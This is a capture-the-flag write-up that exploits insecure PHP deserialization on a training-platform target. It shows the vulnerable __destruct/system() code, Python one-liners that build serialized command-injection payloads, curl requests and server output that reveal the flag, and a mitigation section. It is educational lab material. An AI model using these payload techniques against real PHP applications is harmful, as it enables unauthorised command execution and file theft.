






# Serial Killer

> **Red Team Academy / Pentest Garage — Web Exploitation**

## 📌 Challenge Information

| Field          | Details                                                          |
| -------------- | ---------------------------------------------------------------- |
| **Challenge**  | Serial Killer                                                    |
| **Category**   | Web Exploitation                                                 |
| **Difficulty** | Easy                                                             |
| **Target**     | `ctf-akshay-serial-killer-821384de.challenges.pentestgarage.com` |
| **Port**       | `80`                                                             |
| **Technique**  | Insecure PHP Deserialization / Command Injection                 |

---

## 🎯 Challenge Overview

The challenge description suggested investigating the serialization process and determining whether user-controlled serialized objects were being processed unsafely.

The initial approach was therefore to inspect the application's PHP source code and trace how user-controlled data was handled.

---



## 🔎 Source Code Analysis

The application exposed its PHP source code.

The relevant code was:

```php
class A {
    public $data;

    public function __destruct() {
        system("echo $this->data > /dev/null");
    }
}

if (isset($_POST["data"])) {
    $data = unserialize(base64_decode($_POST["data"]));
    echo "Data recieved<br>";
} else {
    highlight_file(__FILE__);
}
```



Two sections were particularly important.

### 1. Unsafe Deserialization

The application accepted attacker-controlled data through the `data` POST parameter, Base64-decoded it, and passed it directly to:

```php
unserialize(base64_decode($_POST["data"]));
```

### 2. Dangerous Destructor

The class defined a destructor:

```php
public function __destruct() {
    system("echo $this->data > /dev/null");
}
```

The `__destruct()` method automatically executes when the object is destroyed.

Because the `$data` property could be controlled through the serialized object, attacker-controlled input could reach the `system()` function.

---

## 🔗 Exploitation Chain

The vulnerable data flow was:

```text
POST data parameter
        ↓
Base64 decoding
        ↓
unserialize()
        ↓
Object A
        ↓
$data property
        ↓
__destruct()
        ↓
system()
        ↓
OS command execution
```

This created an insecure deserialization vulnerability leading to command execution.

---

## 🧪 Crafting a Serialized Object

The vulnerable class contained a public `$data` property:

```php
class A {
    public $data;
}
```

Therefore, an object of class `A` with a controlled `$data` property could be represented using PHP's serialized object format.

The following Python command was used to construct the serialized object and Base64-encode it:

```bash
python3 -c 'import base64; p="; id #"; s=f'\''O:1:"A":1:{{s:4:"data";s:{len(p)}:"{p}";}}'\''; print(s); print(base64.b64encode(s.encode()).decode())'
```

The generated serialized object was:

```text
O:1:"A":1:{s:4:"data";s:6:"; id #";}
```

The Base64-encoded representation was then supplied to the application.



---

## 💻 Confirming Command Execution

The payload was initially submitted incorrectly because the required POST parameter name was omitted.

The application source showed that it specifically expected:

```php
$_POST["data"]
```

Therefore, the correct request format was:

```bash
curl -X POST \
  -d 'data=<BASE64_PAYLOAD>' \
  http://ctf-akshay-serial-killer-821384de.challenges.pentestgarage.com/
```

Using the corrected request, command execution was confirmed.

The server returned:

```text
Data recieved
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



This confirmed that the injected command was executed successfully and that the process was running as the `www-data` user.

---

## 🔍 Locating the Flag

After confirming command execution, a filesystem search was performed for files containing `flag` in their filename.

The injected command was:

```bash
; find / -type f -iname '*flag*' 2>/dev/null #
```

The payload was generated using:

```bash
python3 -c 'import base64; p="; find / -type f -iname '\''*flag*'\'' 2>/dev/null #"; s=f'\''O:1:"A":1:{{s:4:"data";s:{len(p)}:"{p}";}}'\''; print("Serialized:",s); print("Base64:",base64.b64encode(s.encode()).decode())'
```

The request was then sent using:

```bash
curl -X POST \
  --data-urlencode 'data=<BASE64_PAYLOAD>' \
  http://ctf-akshay-serial-killer-821384de.challenges.pentestgarage.com/
```

The search returned:

```text
/home/ctf/flag
```



---

## 🚩 Reading the Flag

A final serialized object was created with the following command in its `$data` property:

```bash
; cat /home/ctf/flag #
```

The payload was generated with:

```bash
python3 -c 'import base64; p="; cat /home/ctf/flag #"; s=f'\''O:1:"A":1:{{s:4:"data";s:{len(p)}:"{p}";}}'\''; print("Serialized:",s); print("Base64:",base64.b64encode(s.encode()).decode())'
```

This produced:

```text
O:1:"A":1:{s:4:"data";s:22:"; cat /home/ctf/flag #";}
```

The Base64-encoded payload was submitted using:

```bash
curl -X POST \
  --data-urlencode \
  'data=TzoxOiJBIjoxOntzOjQ6ImRhdGEiO3M6MjI6IjsgY2F0IC9ob21lL2N0Zi9mbGFnICMiO30=' \
  http://ctf-akshay-serial-killer-821384de.challenges.pentestgarage.com/
```

The server returned:

```text
Data recieved
ctf{ins3cur3_deser!al!z4t!0n}
```



---

## 🚩 Flag

```text
ctf{ins3cur3_deser!al!z4t!0n}
```

---

## 🧠 Vulnerability Analysis

The primary vulnerability was **insecure PHP deserialization**.

The application directly passed user-controlled input to:

```php
unserialize()
```

without validating or restricting the serialized object.

The application also defined a dangerous destructor:

```php
__destruct()
```

which passed attacker-controlled data to:

```php
system()
```

This created a complete exploitation chain from untrusted input to operating-system command execution.

### Vulnerability Chain

```text
Untrusted POST input
        ↓
Base64 decoding
        ↓
Unsafe unserialize()
        ↓
Attacker-controlled object
        ↓
__destruct()
        ↓
system()
        ↓
Command injection
        ↓
File access
        ↓
Flag
```

---

## 🛡️ Mitigation

A secure implementation should avoid deserializing untrusted user input.

Recommended protections include:

* Avoid `unserialize()` on untrusted data.
* Validate and constrain input before processing.
* Use safer data formats such as JSON where appropriate.
* Avoid invoking operating-system commands with user-controlled data.
* Do not place dangerous operations inside magic methods such as `__destruct()`.
* Apply appropriate server-side input validation and access controls.

---

## 🛠️ Tools Used

* Kali Linux
* curl
* Python
* PHP source code analysis
* Base64
* Linux command-line utilities

---

## 📚 Key Takeaways

This challenge demonstrated how unsafe PHP deserialization can become significantly more dangerous when combined with a magic method that invokes `system()`.

The important lesson was to trace the entire flow of attacker-controlled data rather than looking at individual functions in isolation.

In this case:

> **Untrusted serialized input → object creation → destructor → `system()` → command execution**

Understanding this complete data flow made it possible to identify and exploit the vulnerability.
